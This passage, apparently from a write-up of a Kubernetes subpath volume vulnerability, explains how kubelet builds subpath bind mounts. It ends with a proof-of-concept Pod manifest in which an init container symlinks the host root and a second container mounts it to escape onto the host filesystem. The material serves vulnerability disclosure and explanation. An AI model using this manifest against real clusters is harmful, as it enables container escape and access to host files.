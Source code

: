     1. Set up an EmptyDir volume at “/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume”
    2. Construct the host path for the subpath mount: “/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/” + “dataset1”
    3. Pass the following mount information to the container runtime:
        * Container path: /mnt/data
        * Host path: /var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/dataset1
    4. The container runtime bind mounts “/mnt/data” in the container root filesystem to “/var/lib/kubelet/pods/1234/volumes/kubernetes.io~empty-dir/my-volume/dataset1” on the host.
    5. The container runtime starts the container.

## The Vulnerability

The vulnerability with subpath volumes was discovered by Maxim Ivanov, by making a few observations:

    * Subpath references files or directories that are controlled by the user, not the system.
    * Volumes can be shared by containers that are brought up at different times in the Pod lifecycle, including by different Pods.
    * Kubernetes passes host paths to the container runtime to bind mount into the container.

The basic example below demonstrates the vulnerability. It takes advantage of the observations outlined above by:

    * Using an init container to setup the volume with a symlink.
    * Using a regular container to mount that symlink as a subpath later.
    * Causing kubelet to evaluate the symlink on the host before passing it into the container runtime.

```
apiVersion: v1
kind: Pod
metadata:
  name: my-pod
Spec:
    initContainers:
    - name: prep-symlink
      image: "busybox"
      command: ["bin/sh", "-ec", "ln -s / /mnt/data/symlink-door"]
      volumeMounts:
      - name: my-volume
        mountPath: /mnt/data
    containers:
    - name: my-container
      image: "busybox"
      command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
      volumeMounts:
      - mountPath: /mnt/data
        name: my-volume
        subPath: symlink-door
    volumes:
    - name: my-volume
      emptyDir: {}
```
